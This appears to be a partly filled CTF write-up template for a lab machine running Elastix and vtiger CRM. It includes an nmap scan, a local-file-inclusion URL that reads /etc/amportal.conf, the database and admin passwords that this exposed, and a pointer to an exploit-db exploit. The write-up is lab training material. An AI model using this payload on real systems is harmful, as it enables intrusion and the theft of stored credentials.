 # Information
- CTF Name: 
- CTF Level:
- CTF Description: 
- Date: 
- Platform: 
- Category: 

# Findings

## External
### Enumeration
![](https://i.imgur.com/gKl3FBX.png)
![](https://i.imgur.com/Prr7rKw.png)
```shell
PORT      STATE    SERVICE      REASON      VERSION
22/tcp    open     ssh          syn-ack     OpenSSH 4.3 (protocol 2.0)
25/tcp    open     smtp?        syn-ack
80/tcp    open     http         syn-ack     Apache httpd 2.2.3
110/tcp   open     pop3?        syn-ack
111/tcp   open     rpcbind      syn-ack     2 (RPC #100000)
143/tcp   open     imap?        syn-ack
443/tcp   open     ssl/http     syn-ack     Apache httpd 2.2.3 ((CentOS))
993/tcp   open     imaps?       syn-ack
995/tcp   open     pop3s?       syn-ack
3306/tcp  open     mysql?       syn-ack
4445/tcp  open     upnotifyp?   syn-ack
4848/tcp  filtered appserv-http no-response
5911/tcp  filtered cpdlc        no-response
10000/tcp open     http         syn-ack     MiniServ 1.570 (Webmin httpd)
```
- It was Kinda pain in ass to enumerate the web, bc it was using old ssl and it can be opened on chrome, so i downloaded an old brower called flank... 
	- ![](https://i.imgur.com/7EofGfR.png)
![](https://i.imgur.com/iWDqHgx.png)
Used the LFI payload
	![](https://i.imgur.com/cdgpqnH.png)
- ![](https://i.imgur.com/b8Df1du.png)
### Gaining Access
![](https://i.imgur.com/fNYD4le.png)
`https://10.129.206.237/vtigercrm/graph.php?current_language=../../../../../../../..//etc/amportal.conf%00&module=Accounts&action`
```shell
~things we got
AMPDBPASS=amp109 AMPDBPASS=jEhdIekWmdjE AMPENGINE=asterisk AMPMGRUSER=admin 
#FOPPASSWORD=passw0rd FOPPASSWORD=jEhdIekWmdjE 

ARI_ADMIN_USERNAME=admin 
ARI_ADMIN_PASSWORD=jEhdIekWmdjE
```
![](https://i.imgur.com/1vHiByA.png)

 i put the password on the elastix and it worked
	![](https://i.imgur.com/aJSlolv.png)
![](https://i.imgur.com/Oy5YtU6.png)
`https://10.129.206.237/admin/config.php`
![](https://i.imgur.com/daSI1sF.png)
![](https://i.imgur.com/PotgqHK.png)
![](https://i.imgur.com/fsmtsJZ.png)
` fanis : fji#REH9i##nrII `
https://www.exploit-db.com/exploits/18650
	- I just changed the Extension to 233
![](https://i.imgur.com/80zAlYj.png)
## Internal
### Enumeration


### Gaining Access


### Maintaining Access
![](https://i.imgur.com/Rjy3lY9.png)
![](https://i.imgur.com/TvEkEet.png)


# Random Notes